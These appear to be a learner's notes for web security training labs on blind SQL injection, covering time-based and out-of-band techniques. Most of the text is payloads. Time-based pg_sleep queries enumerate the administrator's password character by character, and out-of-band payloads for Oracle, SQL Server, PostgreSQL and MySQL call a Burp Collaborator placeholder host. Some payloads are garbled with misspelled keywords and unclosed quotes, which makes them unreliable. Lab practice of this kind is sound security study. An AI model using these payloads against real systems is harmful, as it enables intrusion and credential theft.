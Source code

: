 ---->>>> bpk9rzp4a8shwx6pm61r

LAB#14 BLIND SQLI TIME BASED WITH INFORMATION RETRIEVAL 
--

VULNERABLE PARAMETER -- TRACKING COOKIE
END GOAL --> EXPLOIT THE VULNERABILITY AND RETRIEVE THE ADMINISTRATOR'S PASSWORD 

ANALYSIS

#1 -->> CONFIRM THAT THE PARAMETER IS VULNERABLE TO TIME BASED SQLI
----->> ' || pg_sleep(10) --

#2 --> confirm that the user table exist
---->> ' || SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END -- 
---->> ' || (SELECT CASE WHEN (table_name = 'users') THEN pg_sleep(10) ELSE pg_sleep(0) END from information_schema.tables) -- 
----> ' || (SELECT CASE WHEN (column_name = 'username' ) THEN pg_sleep(10) ELSE pg_sleep(0) END from information_schema.columns WHERE table_name = 'users') -- 
---->' || (SELECT CASE WHEN (username = 'administrator' ) THEN pg_sleep(10) ELSE pg_sleep(4) END from users) -- 

#3 --> enumerate the lenght of the password 
-->>> ' || ( SELECT CAASWE WHERE ( username = 'administrator AND lenght(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --
-->>>  ' || ( SELECT CAASWE WHERE ( username = 'administrator AND lenght(password)>25) THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --

-->> passsword = lenght (20)

#4  --> enumerate the password
-->>> ' || ( SELECT CASE WHERE ( username = 'administrator' AND substring(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END from users) --

-->>> ' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--




LAB #15 BLIND SQL WITH OUT OF BAND INTERACTION 
--
SQLI 

VULNERABLE PARAMETER -->>> TRACKING COOKIE

ONLY WORKS ON PRO BURP VERSION \
		ANALYSIS 
		ORACLE -->>> ' || SELECT EXTRACTVALUE(xmltype(''<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual --
		MICROSOFT -->>> ' || exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a' --
		POSTGRESQL -->>> ' ||copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN' --
		MYSQL -->>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a') --
		 -->>.. (ONLY FOR WINDOWS)
		SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'


LAB #16 Blind SQL injection with out-of-band data exfiltration
---
Vulnerable parameter - tracking cookie
